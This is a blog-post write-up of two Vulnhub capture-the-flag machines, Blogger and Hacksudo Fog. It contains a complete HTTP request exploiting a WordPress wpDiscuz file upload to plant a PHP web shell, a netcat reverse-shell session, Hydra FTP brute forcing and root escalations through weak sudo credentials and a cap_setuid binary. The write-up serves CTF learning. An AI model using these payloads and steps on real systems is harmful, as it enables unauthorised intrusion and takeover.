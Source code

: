 ```yaml
---
layout: post
title:  "Vulnhub: HACKSUDO: Fog and Blogger"
date:   2021-05-22 20:30:00 +1000
category: hacking
---
```


## HACKSUDO: Fog and Blogger
I've recently done [HACKSUDO: Fog](https://www.vulnhub.com/entry/hacksudo-fog,697/) and [Blogger](https://www.vulnhub.com/entry/blogger-1,675/) from Vulnhub but I'm struggling for motivation a bit at the moment so this will be pretty brief. 

Blogger first.

## Ports
SSH and HTTP.

## HTTP 
This is basically a hidden Wordpress installation; it's at http://blogger.thm/assets/fonts/blog/ 

Note we were told:

>Add blogger.thm to /etc/hosts file

So we can assume this was intended for TryHackMe? If it comes up there it'll be an easy pwn. Anyway, with a thorough wpscan (get ye an API token):

``
wpscan -e --url http://blogger.thm/assets/fonts/blog/ --api-token LOL_GET_YOUR_OWN --plugins-detection aggressive
``

you can find what you want, which is a vulnerable plugin called [wpDiscuz](https://github.com/hoanx-2146/wpDiscuz_unauthenticated_arbitrary_file_upload). Now according to that page it has a metasploit module but it's not loaded by default in my version of Kali anyway. I did load it but it still wouldn't run so just do it manually with Burp Suite. It's a pre-auth unrestricted file upload so you can get a shell or whatever. 

{% highlight shell %}
POST /assets/fonts/blog/wp-admin/admin-ajax.php HTTP/1.1
Host: blogger.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------2048175503286114511976579529
Content-Length: 747
Origin: http://blogger.thm
Connection: close
Referer: http://blogger.thm/assets/fonts/blog/?p=27
Cookie: wordpress_test_cookie=WP+Cookie+check; wpdiscuz_hide_bubble_hint=1

-----------------------------2048175503286114511976579529
Content-Disposition: form-data; name="action"

wmuUploadFiles
-----------------------------2048175503286114511976579529
Content-Disposition: form-data; name="wmu_nonce"

06b879b0c5
-----------------------------2048175503286114511976579529
Content-Disposition: form-data; name="wmuAttachmentsData"

undefined
-----------------------------2048175503286114511976579529
Content-Disposition: form-data; name="wmu_files[0]"; filename="cmd.php"
Content-Type: image/gif

GIF8 <?php system($_GET['cmd']);?>
-----------------------------2048175503286114511976579529
Content-Disposition: form-data; name="postId"

27
-----------------------------2048175503286114511976579529--
{% endhighlight %}

Note the first time I tried this it wouldn't work; I had to reinstall the box in VirtualBox and after I'd done that it was all good.

## Privesc
There are a few rabbit holes here; at least that's how it looks. We have a root cron job running a wildcard **tar**; but in order to exploit it we need to be James. We can get the hash from mysql after we get the creds from wp-config.php but the hash doesn't want to crash. The mysql password is not reused for James. And even after I got root and read the shadow file, the system hash for James doesn't want to crack either. So the tar/cron path appears to be a rabbit hole. We also have a file called /opt/.creds that looks like gibberish:

{% raw %}
';u22>'v$)='2a#B&>`c'=+C(?5(|)q**bAv2=+E5s'+|u&I'vDI(uAt&=+
(|`yx')Av#>'v%?}:#=+)';y@%'5(2vA!'<y$&u"H!"ll
{% endraw %}

Maybe I'm supposed to be able to decrypt that; dunno. Anyway we have a user (vagrant) with a weak password (vagrant) who can do anything:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/blogger]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.236] 57662
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ress/assets/fonts/blog/wp-content/uploads/2021/05$ su vagrant
su vagrant
Password: vagrant

<ress/assets/fonts/blog/wp-content/uploads/2021/05$ sudo -u root su
sudo -u root su
<ress/assets/fonts/blog/wp-content/uploads/2021/05# id
id
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

Looking through auth.log and in the home directories:

{% highlight shell %}
root@ubuntu-xenial:/home/vagrant/.ssh# cat au
cat authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCfmqiMY0t8f+InjxZAAMCHW8Zvbd0GRljA7baIioIIUD2jyEDx56UcYd73AXwNiemyJ857dGvgmiNdjbpvynN9Q66SD5X0sA+pjZhCW6QLLwjuqXkT0sEg+U6dRgzN4JT6NSzmmKouoZUFFclhQeB3n0rrbFW1IUyLk9UET/mfYlw7v1/+0rKvsw69Z9M8GnHuhoroTAR6bRz4oontqsAuxlIRPo/vCVggyWOUg3Q81loLLv0indfWJroWWtqR/6JP2Ginfuk66+WS6BAut6nRs4IMAKvqLyl0Roiv/DAKvGxFVUdgvSMQ5jSEDjNsmZ463wExeg0ObrTghHWIlFI3 vagrant
{% endhighlight %}

It seems pretty clear we were supposed to use vagrant and the rest was a distraction.

## Hacksudo FOG
We had to bruteforce FTP on this box:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hacksudofog]
└─# hydra -l hacksudo -P ./dict.txt ftp://192.168.1.233 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-17 07:59:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 196 login tries (l:1/p:196), ~13 tries per task
[DATA] attacking ftp://192.168.1.233:21/
[21][ftp] host: 192.168.1.233   login: hacksudo   password: hackme
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-17 08:00:21
{% endhighlight %}

The file *dict.txt* was on the server; but you needed a pretty thorough enumeration to find it. Next, we got some files from the FTP server and did some stego to get back some more creds:

>wwww.localhost/fog Username=fog:password=hacksudoISRO

Which was rot23 from 'zzzz.orfdokrvw/irj Xvhuqdph=irj:sdvvzrug=kdfnvxgrLVUR'

Next we could login to the CMS on the website and get ourselves a shell; nothing too complicated. 

On the box, **look** had the SUID bit so we could read the root flag or shadow file. The hash for **isro** cracked extremely quickly (qwerty) and isro could do this:

{% highlight shell %}
isro@hacksudo:/dev/shm$ sudo -l
sudo -l
[sudo] password for isro: qwerty

Matching Defaults entries for isro on hacksudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User isro may run the following commands on hacksudo:
    (root) /usr/bin/ls /home/isro/*
{% endhighlight %}

Erm yeah ok. Anyway *fog* had the cap_setuid capability and running it opened a python shell so that was that:

{% highlight shell %}
isro@hacksudo:~/fog$ fog -h
fog -h
Python 2.7.16 (default, Oct 10 2019, 22:02:15) 
[GCC 8.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> id
id
<built-in function id>
>>> import os 
import os
>>> os.system("/bin/bash")
os.system("/bin/bash")
root@hacksudo:~/fog# id
id
uid=0(root) gid=1003(isro) groups=1003(isro)
root@hacksudo:~/fog# id;hostname;date
id;hostname;date
uid=0(root) gid=1003(isro) groups=1003(isro)
hacksudo
Mon 17 May 2021 08:31:04 AM EDT
{% endhighlight %}

I probably left out some detail here but whatever. It was good; I'm just a bit weary. And possibly a bit over CTFs at the moment.
